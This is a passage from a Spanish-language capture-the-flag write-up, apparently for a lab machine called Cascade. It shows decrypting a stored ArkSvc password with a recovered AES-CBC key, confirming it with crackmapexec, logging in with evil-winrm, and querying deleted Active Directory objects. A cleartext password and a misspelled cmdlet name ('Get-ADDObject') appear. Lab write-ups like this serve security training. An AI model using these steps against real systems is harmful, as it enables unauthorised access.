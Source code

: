 Vemos una contraseña encryptada en base64 del usuario `ArkSvc`.

```bash
echo "8QO5l5Kj9MdErXx6Q6AG0w==" | base64 -d; echo
echo "8QO5l5Kj9MdErXx6Q6AG0w==" | base64 -d > arksvc_password
cat arksvc_password
```

Nuevamente vemos que es una contraseña encryptada. Tenemos que buscar con que a sido encryptada.

Como hay differentes ficheros windows, transferimos los ficheros a una maquina windows.

En la maquina windows, instalamos el `dotPeek` que es una heramienta que nos permite analyzar codigo dotNet a bajo nivel.
Vemos aqui una Key y utiliza la dll CascCrypto para encryptar y desencryptar cosas. Analyzamos la dll y vemos que utiliza un **Modo CBC** para 
encryptar y desencryptar. Vemos un **IV** y con [cyberChef](https://gchq.github.io/CyberChef/) desencryptamos la contraseña.

```{r, echo = FALSE, fig.cap="CBC decrypt with cyberchef", out.width="90%"}
    knitr::include_graphics("images/Cascade-cbc-decrypt.png")
```

Ya tenemos contraseña y validamos con crackmapexec.

```bash
crackmapexec smb 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
crackmapexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
```

Como el usuario esta **Pwn3d!** con winrm nos connectamos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
```

Enumeramos

```powershell
cd C:\Users\Administrator
dir
whoami /priv
```

Aqui vemos que el usuario es parte del grupo **AD Recycle Bin** y esto nos hace pensar que los ficheros que hemos visto
contiene un log en el cual habia el usuario **AdminTemp** en el **Recycle Bin**. Esto podria permitirnos buscar Objetos
borrados. Buscando por internet encontramos un comando:

```powershell
Get-ADDObject -Filter 'Deleted -eq $true' -IncludeDeletedObjects
```

Encontramos el usuario borrado pero necesitamos ver si podemos encontrar propriedades de este objeto

```powershell
Get-ADDObject -Filter 'Deleted -eq $true' -IncludeDeletedObjects -Properties *
```
